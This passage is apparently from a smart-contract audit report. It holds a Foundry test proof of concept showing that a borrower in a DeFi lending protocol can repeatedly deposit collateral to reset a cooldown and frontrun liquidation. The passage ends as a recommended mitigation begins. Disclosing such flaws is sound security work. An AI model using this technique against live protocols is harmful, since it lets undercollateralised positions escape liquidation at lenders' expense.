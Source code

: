 function testUnlimitedCooldownToLiquidatePosition() public {
    // Bob deposits collateral so Alice can be liquidated
    vm.startPrank(bob);
    collateralAndLiquidity.depositCollateralAndIncreaseShare(
        wbtc.balanceOf(bob),
        weth.balanceOf(bob),
        0,
        block.timestamp,
        false
    );
    vm.stopPrank();
    // Alice will deposit all her collaterals and borrow the maximum value of USDS
    _depositHalfCollateralAndBorrowMax(alice);

    vm.warp(block.timestamp + 1 hours);

    _crashCollateralPrice();

    assertTrue(collateralAndLiquidity.canUserBeLiquidated(alice));

    // Alice adds before being liquidated
    vm.prank(alice);
    collateralAndLiquidity.depositCollateralAndIncreaseShare(
        1 * 10 ** 8,
        1 ether,
        0,
        block.timestamp,
        false
    );

    // Even if she is undercollateralized after adding, she is protected from liquidation
    assertTrue(collateralAndLiquidity.canUserBeLiquidated(alice));

    // Trying to liquidate Alice's position
    vm.prank(bob);

    // Will fail for 1 hour.
    // This is obviously not an expected revert; it is here for the second one to fail
    vm.expectRevert();
    collateralAndLiquidity.liquidateUser(alice);

    vm.warp(block.timestamp + 1 hours);

    // After one hour, Alice can add new liquidity, frontrunning any liquidation
    // to prevent their collateral from being lost
    vm.prank(alice);
    collateralAndLiquidity.depositCollateralAndIncreaseShare(
        1 * 10 ** 8,
        1 ether,
        0,
        block.timestamp,
        false
    );

    vm.prank(bob);
    // Will fail for 1 hour more.
    collateralAndLiquidity.liquidateUser(alice);
}
Recommended Mitigation
Since there is no reason for an external liquidator to interfere, or be interrupted by the cooldown of another user, the better solution seems to set this cooldown boolean to false for the liquidateUser function:
